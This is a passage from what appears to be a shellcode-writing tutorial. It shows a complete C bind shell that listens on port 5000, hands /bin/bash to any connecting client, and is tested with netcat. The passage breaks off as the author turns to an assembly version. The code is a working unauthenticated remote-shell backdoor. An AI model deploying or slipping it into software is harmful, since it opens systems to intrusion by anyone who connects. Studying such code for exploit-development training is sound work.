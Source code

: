 int main() {
        /* Initialize some variables */
        int sockfd = 0, clientfd = 0;

        /* Initialize the socket */
        sockfd = socket(AF_INET, SOCK_STREAM, 0);

        /* Set up the params for the server socket */
        struct sockaddr_in server_addr;
        server_addr.sin_family = AF_INET;
        server_addr.sin_addr.s_addr = htonl(INADDR_ANY);
        server_addr.sin_port = htons(5000); /* htons to convert to network byte order */

        /* Bind to the address we gave it */
        bind(sockfd, (struct sockaddr*)&server_addr, sizeof(server_addr));

        /* tell the server to listen */
        listen(sockfd, 10);

        /*
         * We should now start accepting client connections
         * the NULLS are because we dont care who is connecting
         * if we did we would need a pointer to a fresh sockaddr_in
         * struct for the accept call to fill in
         */

        clientfd = accept(sockfd, (struct sockaddr*)NULL, NULL);

        /* Redirect STDIN(0), STDOUT(1) and STDERR(2) to the client socket */
        dup2(clientfd, 0);
        dup2(clientfd, 1);
        dup2(clientfd, 2);

        /* execute the shell */
        char* args[] = {"/bin/bash", NULL};
        execve(args[0], args, NULL);

}
{{< / highlight >}}

Lets compile and run
```
  $ gcc -m32 -o bind_shell bind_shell.c
  $ ./bind_shell

```
And now from another shell
```
  $ nc localhost 5000
  ls
  bind
  bind.o
  bind_shell
  bind_shell.c

```
Right so our C version is working, the code is pretty well commented but it is
clear that there is no error checking and also that there are LOTS of constants
that we wont have when we come to write this in assembly. These are


[socket]: https://linux.die.net/man/7/socket  "Socket Man page docs"
[bind]: https://linux.die.net/man/7/bind  "Bind Man page docs"
[listen]: https://linux.die.net/man/7/listen  "listen Man page docs"
[bind]: https://linux.die.net/man/7/bind  "bind Man page docs"
[accept]: https://linux.die.net/man/7/accept  "accept Man page docs"
[dup2]: https://linux.die.net/man/7/dup2  "dup2 Man page docs"
[execve]: https://linux.die.net/man/7/execve  "execve Man page docs"
